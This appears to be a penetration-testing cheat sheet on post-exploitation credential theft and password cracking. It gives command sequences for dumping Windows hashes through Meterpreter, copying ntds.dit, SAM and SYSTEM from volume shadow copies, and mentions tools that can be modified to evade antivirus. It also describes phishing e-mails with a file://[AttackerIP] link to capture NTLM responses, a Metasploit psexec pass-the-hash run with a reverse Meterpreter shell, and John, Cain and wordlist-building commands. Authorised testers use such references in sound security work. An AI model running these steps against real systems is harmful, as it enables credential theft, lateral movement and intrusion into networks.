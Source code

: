 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Metasploit hashdump | meterpreter > hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry)
Mimikatz |  https://www.offensive-security.com/metasploit-unleashed/Mimikatz/ <br> https://www.christophertruncer.com/golden-ticket-generation/ <br> http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html <br> http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
Volume Shadow Copy Service (domain controller) |  Obtain from : <br> https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs <br> https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  <br> <code> > cscript vssown.vbs /status or /start or /create /c <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak <br> Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
Sniff (Kannan, ntlm, ms kerberos) | E-mail with link: <br> file://[AttackerIP]/[AttackerShare] <br> Sniff the traffic between victim and client for challenge and response"

> **Linux**

/etc/passwd and /etc/shadow

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/


>**John**

View Cracked Passwords | ./john --show [password file]
Pause a session | CTRL-C
Kill a session | CTRL-C twice quickly
Restore a session | ./john --restore
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | ./unshadow passwd_copy shadow_copy > combined.txt
Password length - Customization | MinLen and MaxLen

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

>**Pass the Hash**

Privs Required | May require RID 500 account due to patch 
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec | use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> set SMBUser [admin_name] <br> set SMBPass [admin_hash] <br> exploit
Nmap nse smb  | tbd



> **Tools**

Rainbow Tables | Ophcrack <br> http://project-rainbowcrack.com <br> http://souceforce.net/projects/ophcrack <br> http://lasecwww.epfl.ch/~oechslin/projects/ophcrack
GPU | MD5 Cracker: http://bvernoux.free.fr/md5/index.php <br> oclHashcat  and Hashcat (same project) <br> CUDA-multiforcer <br> aircrack-ng-CUDA <br> pyrit (WPA and WPA w/ CoWPAtty)
CPU | John and Cain

